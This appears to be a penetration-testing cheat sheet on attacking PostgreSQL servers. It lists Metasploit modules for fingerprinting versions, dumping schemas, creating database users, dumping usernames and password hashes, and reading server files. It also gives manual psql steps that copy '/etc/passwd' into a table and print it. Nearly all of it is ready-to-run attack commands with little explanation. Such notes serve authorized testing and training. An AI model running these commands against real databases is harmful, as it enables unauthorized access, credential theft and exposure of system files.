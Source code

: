 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`
`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`
`set RFILE /path/to/file.txt`
`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username>`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`
